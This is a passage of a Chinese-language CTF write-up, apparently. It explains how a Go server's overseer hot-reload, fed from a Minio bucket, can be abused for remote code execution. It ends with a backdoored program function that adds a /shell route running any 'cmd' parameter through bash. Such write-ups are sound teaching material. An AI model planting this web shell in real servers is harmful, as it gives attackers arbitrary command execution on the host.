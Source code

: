 main.go 源码

```go
package main

import (
    "level25/fetch"

    "level25/conf"

    "github.com/gin-gonic/gin"
    "github.com/jpillora/overseer"
)

func main() {
    fetcher := &fetch.MinioFetcher{
        Bucket:    conf.MinioBucket,
        Key:       conf.MinioKey,
        Endpoint:  conf.MinioEndpoint,
        AccessKey: conf.MinioAccessKey,
        SecretKey: conf.MinioSecretKey,
    }
    overseer.Run(overseer.Config{
        Program: program,
        Fetcher: fetcher,
    })

}

func program(state overseer.State) {
    g := gin.Default()
    g.StaticFS("/", gin.Dir(".", true))
    g.Run(":8080")
}
```

从源码和[提示](https://baimeow.cn/posts/ctf/d3go/)结合对 overseer 的搜索可以发现使用了 overseer 对程序热加载，文件变更后会自动重启更新，解题思路也就是从自更新入手打 RCE。

那么先在本地修改 main.go 文件，注释掉原有的静态⽂件托管，写入 WP 所给后门

```go
func program(state overseer.State) {
        g := gin.Default()
        // g.StaticFS("/", gin.Dir(".", true))
        g.GET("/shell", func(c *gin.Context) {
                cmd, _ := c.GetQuery("cmd")
                out, err := exec.Command("bash", "-c", cmd).CombinedOutput()
                if err != nil {
                        c.String(500, err.Error())
                        return
                }
                c.String(200, string(out))
        })
        g.Run(":8080")
}
```

